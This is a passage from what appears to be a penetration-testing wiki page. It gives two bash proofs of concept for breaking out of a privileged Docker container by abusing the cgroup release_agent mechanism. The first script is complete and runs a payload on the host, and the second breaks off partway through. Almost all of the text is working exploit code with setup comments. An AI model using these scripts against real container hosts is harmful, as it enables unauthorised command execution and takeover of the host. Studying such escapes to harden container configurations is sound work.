 #### Privileged Escape Abusing release\_agent - PoC1

{% code title="Initial PoC" %}
```bash
# spawn a new container to exploit via:
# docker run --rm -it --privileged ubuntu bash

# Finds + enables a cgroup release_agent
## Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o
```
{% endcode %}

#### Privileged Escape Abusing release\_agent - PoC2

{% code title="Second PoC" %}
```bash
# On the host
docker run --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash

# Mounts the RDMA cgroup controller and create a child cgroup
# This technique should work with the majority of cgroup controllers
# If you're following along and get "mount: /tmp/cgrp: special device cgroup does not exist"
# It's because your setup doesn't have the RDMA cgroup controller, try change rdma to memory to fix it
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# If mount gives an error, this won't work, you need to use the first PoC

# Enables cgroup notifications on release of the "x" cgroup
echo 1 > /tmp/cgrp/x/notify_on_release

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
echo "$host_path/cmd" > /tmp/cgrp/release_agent

#For a normal PoC =================
```